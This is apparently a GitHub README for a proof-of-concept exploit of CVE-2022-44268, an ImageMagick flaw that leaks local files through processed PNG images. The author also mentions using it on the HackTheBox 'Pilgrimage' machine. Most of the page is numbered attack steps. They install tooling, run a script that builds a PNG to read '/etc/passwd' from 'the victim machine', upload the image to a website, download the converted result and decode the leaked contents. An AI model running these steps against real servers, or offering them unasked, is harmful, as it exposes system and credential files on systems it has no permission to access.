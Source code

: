 # ImageMagick-lfi-poc
### ImageMagick Arbitrary Read Files - CVE-2022-44268

also used in htb pilgrimage

## ImageMagick LFI PoC [CVE-2022-44268]


The researchers at [MetabaseQ](https://www.metabaseq.com/imagemagick-zero-days/) discovered CVE-2022-44268, i.e. ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).



Step 1 :

run

```
pip install pillow
sudo apt install graphicsmagick-imagemagick-compat
```

Step 2 ;

run

```
python3 magick_exploit.py generate -l [local_file] -o [output_file]
```

here in this case the local file is '/etc/passwd' which i want to get from the victim machine.

step 3 :

upload the image file on the website

step 4 :

get he converted image file from the website.
name it as 'downloaded_image.png'

step 5:

run 

```
python3 decode_profile.py
```

![](20230723122440.png)

## Note

if there is some error like

```
 "/home/kali/codeplay/oscp/htb/machines/pilgrimage/decode_profile.py", line 8, in <module>
    profile = output_str.split("Raw profile type: \n\n    ")[1].split('Date:create:')[0]
              ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^
IndexError: list index out of range

```

It means that the file you mentioned doesnt exist. Use `/etc/passwd` for sanity check. 

## Credits

1. https://github.com/adhikara13/CVE-2022-44268-MagiLeak
2. https://github.com/Sybil-Scan/imagemagick-lfi-poc



